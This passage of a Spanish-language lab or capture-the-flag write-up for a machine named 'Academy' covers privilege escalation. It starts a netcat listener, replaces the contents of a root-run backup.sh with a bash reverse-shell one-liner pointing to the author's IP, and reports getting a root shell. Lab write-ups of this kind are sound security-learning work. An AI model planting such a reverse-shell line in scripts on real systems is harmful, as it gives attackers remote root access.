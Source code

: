 ```
nc -nlvp 8081
```

- Poner 8081, porque ya se puso antes y existe la posibilidad que el port 80 este ahí afuera (si lo esta).

![](/assets/images/2025-07-20-Maquina_Academy/academy_nc8081.png)

```
nano backup.sh
```

- Abrir el archivo backup.sh y borrar el contenido.

![](/assets/images/2025-07-20-Maquina_Academy/academy_nanobackup.png)

```
bash -i >& /dev/tcp/192.168.116.129/8081 0>&1
```

- Colocar está línea encontrada en google, en backup.sh
- Esto llamará a nuestra dirección IP

![](/assets/images/2025-07-20-Maquina_Academy/academy_bashcode.png)

- Cuando se ejecuta el script anterior, se obtiene una shell root.

![](/assets/images/2025-07-20-Maquina_Academy/academy_rootacademy.png)
